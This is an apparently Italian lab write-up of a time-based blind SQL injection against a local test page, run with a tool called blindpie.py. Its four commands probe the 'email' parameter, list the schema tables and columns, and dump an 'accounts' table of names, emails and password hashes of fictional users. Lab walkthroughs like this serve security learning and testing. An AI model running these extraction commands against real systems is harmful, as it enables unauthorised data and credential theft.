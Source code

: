 # Time-Based Blind

1. Esamino i parametri della richiesta GET:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get test --test
    ```

    Lo script rileva che `email` sia vulnerabile.

2. Ottengo le prime righe di `information_schema.tables`:

    ```
    python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table information_schema.tables --column table_name --param email --row 0 --rows 120
    ```

    Tra le righe compare la tabella `accounts`.

3. Ottengo le prime righe di `information_schema.columns`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T5 attack --table information_schema.columns --column "concat(table_name, ' ', column_name)" --param email --row 0 --rows 50
    ```

    Ogni riga ritornata dallo script è una coppia `(table_name, column_name)`. Cercando le righe in cui compare la tabella `accounts` si determinano i nomi delle sue colonne.

4.  Estraggo tutti i dati della `accounts`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table accounts --column "concat(id, ' ', first_name, ' ', last_name, ' ', email, ' ', password)" --param email --row 0 --rows 10
    ```

    Output:

    ```
    ...
    > RESULTS:
    1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
    2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
    3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
    4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
    ...
    ```
